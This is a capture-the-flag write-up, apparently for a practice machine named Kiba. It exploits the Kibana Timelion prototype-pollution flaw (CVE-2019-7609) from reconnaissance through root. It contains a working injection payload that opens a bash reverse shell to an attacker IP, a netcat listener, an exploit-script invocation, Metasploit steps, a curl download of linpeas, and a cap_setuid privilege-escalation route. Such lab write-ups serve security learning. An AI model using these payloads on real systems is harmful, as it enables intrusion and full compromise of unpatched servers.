Before you begin, always add your ip address to hosts file so as to avoid burden especially ip address related operations, while you are actively pentesting.

How to apply ?



## Reconnaissance
 nmap payload:
└─# sudo nmap -sV -sC -p- kiba.thm

Unusual port number:





What is Kibana ?


Suspicious path:
http://kiba.thm:5601/app/timelion#


## Exploitation

Useful resources about vulnerability:
- https://github.com/LandGrey/CVE-2019-7609
- https://github.com/mpgn/CVE-2019-7609

For the exploitation phase we have two ways to compromise the target.
- Manual payload execution on 
### Manual Exploitation - 1

After a couple of research process, I discovered the vulnerability itself which is **Prototype Pollusion** on **Timelion** feature of the **Kibana** - ElasticSearch supported and opensource data visualization platform.




Initial compromise:
- Used Payload:

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/10.11.69.113/1337 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

- Netcat listener:
```
nc -lvnp 1337
```


Reverse Shell PoC:



### Manual Exploitation - 2

Although I have taken reverse shell connection properly, trying a python script where I discovered the vulnerability that trigger RCE automatically.

```
# python2 CVE-2019-7609-kibana-rce.py -h

usage: CVE-2019-7609-kibana-rce.py [-h] [-u URL] [-host REMOTE_HOST]
                                   [-port REMOTE_PORT] [--shell]

optional arguments:
  -h, --help         show this help message and exit
  -u URL             such as: http://127.0.0.1:5601
  -host REMOTE_HOST  reverse shell remote host: such as: 1.1.1.1
  -port REMOTE_PORT  reverse shell remote port: such as: 8888
  --shell            reverse shell after verify

```

I will execute a payload below:

```
python2 CVE-2019-7609-kibana-rce.py -u http://10.10.163.241:5601 -host 10.11.69.113 -port 1234 --shell
```

However, it did not call back on my machine. After on my first shot, I got break-time and turn on hybrid mode on my system. Therefore, I am going to refresh the machine.






Now it works ! After I restarted the machine, I was able to get my reverse shell !




### Automated Exploitation

Metasploit Framework offers only three modules for **Kibana** platform. However, first approach was suitable for me. You can reach out the related module in below.



To interact with correlated module:

```
use 0
```

Now you are ready to configure module specific settings.

In order to show options required by the module, use the below command:

```
show options
```



Modifying the *RHOSTS*, *TARGETURI* and *RPORT* is enough to execute our exploit.

To add necessary information to script settings:

```
set [needed attribute]

Example: set RHOSTS or set RPORT
```

For this scenario, do not forget to modify *RHOSTS*, *LHOST* and *LPORT*.



Since I forgot to give *LHOST* and *LPORT* option, I was not able to run the script appropriately.


I have tried to run linpeas on tmp folder which allows users to run many scripts here ,but in this scenario it does not work. Therefore, I uploaded my files through /home/kiba

1. Deploy python server from local
```
python -m http.server 3131
```

2. Download linpeas from victim machine
```
curl http://10.11.69.113:3131/linpeas.sh -o linpeas.sh
```

3. Give executable permission to linpeas.sh
```
chmod +x linpeas.sh
```

4. Examine carefully  the linpeas output
- I found really useful evidence to escalate our privileges



- The crontab shows that the user Kiba has a cron job scheduled to run every minute. This job navigates to the directory /home/kiba/kibana/bin and runs the bash kibana command.


We have a possible privilege escalation vector known as Sudo Privileges:

Since Kiba is in the sudo group, check what commands you can run with sudo -l.

It did not work in this scenario:

```
  whoami
  kiba
  sudo -l
  sudo: no tty present and no askpass program specified
```

Furthermore, we have a binary named /home/kiba/.hackmeplease/python3, which has the capability cap_setuid+ep, which means that this Python binary can change user IDs (setuid). This is a potential privilege escalation vector since it allows the Python process to execute with elevated privileges.



Let me pay attention on .hackmeplease :D




Since we have the python3 binary and its vulnerability. In binary exploitation, we trust GFTOBins to escalate privileges:

https://gtfobins.github.io/gtfobins/python/


- On GFTOBins, we have many binaries available to elevate our privileges. However, today, we should look for Python binary. After a deep dive attempt, I recognized that I was dealing with cap_setuid+ep capability. Therefore, using this payload to escalate my privileges will be suitable.




### Conclusion
All in all, this article demonstrates how different penetration testing methodologies can be used. From reconnaissance to post-exploitation, I provided three vital pathways for you to understand the idea behind the scene. The detailed steps, ranging from mapping out unusual ports (Kibana) to exploiting vulnerability and escalating privilege show the significance of understanding each phase deeply. Following the steps, applying knowledge practically, and adapting to challenges are crucial. Always remember that careful planning and paying attention to small details, such as setting up the Metasploit console or configuring script parameters correctly, can save you much trouble during the engagement